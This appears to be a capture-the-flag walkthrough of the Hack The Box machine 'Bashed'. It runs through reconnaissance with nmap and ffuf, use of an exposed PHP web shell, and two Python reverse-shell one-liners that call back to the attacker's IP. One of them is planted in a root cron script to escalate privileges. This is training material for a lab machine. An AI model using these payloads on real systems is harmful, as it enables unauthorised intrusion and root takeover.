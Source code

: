 # Bashed-HTB
Bashed is a Linux machine that is rated as easy, so let's start :)

# Recon
I started by runing nmap scan on the machine.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sC -sV 10.10.10.68                  
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-28 20:47 EDT
Nmap scan report for 10.10.10.68
Host is up (0.048s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.61 seconds
```
## ffuf
Using ffuf to fuze for web directories.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ./ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.68/FUZZ                                                                                                                                130 ⨯

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.68/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

images                  [Status: 301, Size: 311, Words: 20, Lines: 10]
uploads                 [Status: 301, Size: 312, Words: 20, Lines: 10]
php                     [Status: 301, Size: 308, Words: 20, Lines: 10]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10]
dev                     [Status: 301, Size: 308, Words: 20, Lines: 10]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 310, Words: 20, Lines: 10]
```
So inside ```/dev``` there is two intresting files, by opening ```phpbash.php```, we get a shell

![image1]()

![image2]()

# User Flag
I prefer to get a shell rather than use the web shell, so here is how you can get a reverse shell using python:

```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_ip_address>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

And we got a shell:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 4444                             
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.68] 42552
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Let's upgrade it now:
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@bashed:/var/www/html/dev$
```
And we can get User Flag:
```
www-data@bashed:/home/arrexel$ cat user.txt
cat user.txt
2c281f318...957c7147bfc1
```

# Root Flag
By running ```sudo -l``` you can see that we can get a shell as ```scriptmanager```
```
www-data@bashed:/home/arrexel$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Getting a shell as ```scriptmanager```:
```
www-data@bashed:/home/arrexel$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/home/arrexel$ id
id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

```scriptmanager``` have access to ```/script``` dir.
```
scriptmanager@bashed:/scripts$ ls
ls
test.py  test.txt
```
So I assumed that root is running a cron job on that dir, so I decided to modify test.py and add a reverse shell.
```
scriptmanager@bashed:/scripts$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_ip_address>",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> test.py
```

And after some minutes I got my reverse shell as root:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 5555                             
listening on [any] 5555 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.68] 45418
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```
Now we can get root flag:
```
# cat root.txt
cc4f0afe...29674a8e2
```

Thank you for reading, and you can find me here on twitter: https://twitter.com/electronicbots
